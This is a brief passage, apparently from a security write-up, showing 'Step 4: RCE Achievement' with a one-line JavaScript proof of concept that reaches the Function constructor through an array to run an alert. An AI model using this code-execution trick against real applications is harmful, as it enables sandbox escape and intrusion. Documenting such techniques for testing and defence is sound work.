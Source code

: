 ![Object](Object.png)

### Step 4: RCE Achievement

**Alert Test (Proof of Concept):**
```javascript
[].constructor.constructor("alert('RCE!')")();
```
